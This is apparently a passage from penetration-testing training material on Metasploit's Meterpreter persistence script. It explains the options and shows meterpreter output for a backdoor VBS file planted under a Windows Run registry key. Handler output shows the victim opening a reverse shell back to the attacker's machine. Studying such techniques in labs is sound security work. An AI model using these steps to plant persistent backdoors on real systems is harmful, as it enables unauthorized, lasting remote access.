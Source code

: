       Let us see which options we will use in order to configure it correctly:
        - `-A` starts the handler on our machine
        - `-X` start the agent at boot
        - `-i 5` connection attempt each 5 seconds
        - `-p 8080` the port for the connect back
        - `-r [IP_Address]` our IP address

      Once we run it, the script output will look like this. As you can see the script automatically creates the backdoor, uploads it and sets the registry keys to start it at boot.

    The steps in detail are as follows:
      1. Creating the Payload
      2. Uploading the backdoor file
      3. Executing the backdoor
      4. add the entry in the windows registry

    Let's double check that the changes are real. Let's first get the registry value with the `reg` command and then list the files in the path where the backdoor has been uploaded:
      ```
      meterpreter > reg queryval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v nZvDeQvFvEi
      Key: HKLM\Software\Microsoft\Windows\CurrentVersion\Run
      Name: nZvDeQvFvEi
      Type: REG_SZ
      Data: C:\Windows\TEMP\flKiuvjYDY.vbs
      meterpreter > ls C:\\Windows\\TEMP\\fl*
      Listing: C:\Windows\TEMP\fl*
      ============================

      Mode              Size    Type  Last modified             Name
      ----              ----    ----  -------------             ----
      100666/rw-rw-rw-  148427  fil   2016-02-29 11:25:42 -0500 flKiuvjYDY.vbs
      ```

    Once the process is complete, if we want to get a session on the target machine, we have to start the listener and wait for incoming connections.
      We can do it by using the `exploit/multi/handler` module.

      Notice that we have to set the same options set with persistence: same payload, IP address, and local port.
      ```
      msf exploit(handler) > exploit

      [*] Started reverse TCP handler on 192.168.102.147:8080
      [*] Starting the payload handler...
      [*] Sending stage (957487 bytes) to 192.168.102.157
      [*] Meterpreter session 14 opened (192.168.102.147:8080 -> 192.168.102.157:1039) at 2016-02-29 11:29:55 -0500
      ```

    In this way each time you need a meterpreter session on the target machine, we only need to start the handler and wait for the victim to connect back.

    Since we edited the Windows Registry to start the script at the system boot, we will be able to create the session each time the machine is booted.
